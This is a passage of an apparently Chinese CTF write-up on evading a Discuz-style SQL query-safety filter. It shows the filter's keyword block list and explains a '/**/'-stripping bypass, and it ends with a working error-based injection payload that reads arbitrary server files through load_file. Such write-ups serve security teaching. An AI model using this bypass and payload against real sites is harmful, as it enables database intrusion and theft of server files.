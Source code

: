 ```
                if (strpos($clean, $action) !== false)
                    return '-3';
            `}`
        `}`       

        if (self::$config['dlikehex'] &amp;&amp; strpos($clean, 'like0x')) `{`
            return '-2';
        `}`

        if (is_array(self::$config['dnote'])) `{`
            foreach (self::$config['dnote'] as $note) `{`
                if (strpos($clean, $note) !== false)
                    return '-4';
            `}`
        `}`
```

然后config中相关的配置为

```
$_config['security']['querysafe']['dfunction']['0'] = 'load_file';
$_config['security']['querysafe']['dfunction']['1'] = 'hex';
$_config['security']['querysafe']['dfunction']['2'] = 'substring';
$_config['security']['querysafe']['dfunction']['3'] = 'if';
$_config['security']['querysafe']['dfunction']['4'] = 'ord';
$_config['security']['querysafe']['dfunction']['5'] = 'char';
$_config['security']['querysafe']['daction']['0'] = '@';
$_config['security']['querysafe']['daction']['1'] = 'intooutfile';
$_config['security']['querysafe']['daction']['2'] = 'intodumpfile';
$_config['security']['querysafe']['daction']['3'] = 'unionselect';
$_config['security']['querysafe']['daction']['4'] = '(select';
$_config['security']['querysafe']['daction']['5'] = 'unionall';
$_config['security']['querysafe']['daction']['6'] = 'uniondistinct';
$_config['security']['querysafe']['dnote']['0'] = '/*';
$_config['security']['querysafe']['dnote']['1'] = '*/';
$_config['security']['querysafe']['dnote']['2'] = '#';
$_config['security']['querysafe']['dnote']['3'] = '--';
$_config['security']['querysafe']['dnote']['4'] = '"';
```

这道题目特殊的地方在于，他开启了afullnote

```
if (self::$config['afullnote']) `{`
        $clean = str_replace('/**/', '', $clean);
    `}`
```

由于/**/被替换为空，所以我们可以直接用前面的逻辑把select加入到这中间，之后被替换为空，就可以绕过这里的判断。

当我们得到一个报错注入之后，我们尝试读取文件内容，发现由于mysql是5.5.29，所以我们可以直接读取服务器上的任意文件。

```
$code = 'time='.time().'&amp;action=renameuser&amp;uid=1&amp;newusername=ddog\',name=(\'a\' or updatexml(1,concat(0x7e,(/*!00000select*/ /*!00000load_file*/(\'c:/windows/win.ini\') limit 1)),0)),title=\'a';
```
